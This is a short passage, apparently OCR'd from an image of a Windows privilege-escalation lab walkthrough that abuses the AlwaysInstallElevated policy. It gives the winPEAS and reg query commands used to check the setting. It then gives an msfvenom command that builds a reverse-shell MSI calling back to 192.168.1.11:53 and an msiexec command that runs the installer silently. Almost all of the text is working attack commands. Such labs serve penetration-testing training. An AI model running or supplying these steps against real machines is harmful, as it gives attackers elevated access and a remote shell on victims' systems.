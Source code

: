 1.Use winPEAS to see if both registry values are set:
 .\winPEASany.exe quiet windowscreds

2.Alternatively, verify the values manually:
> reg query
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
/v AlwaysInstallElevated


> reg query
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
/v AlwaysInstallElevated

3.Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```
 msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
```


4.Copy the reverse.msi across to the Windows VM, start a listener on Kali,
and run the installer to trigger the exploit:


```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```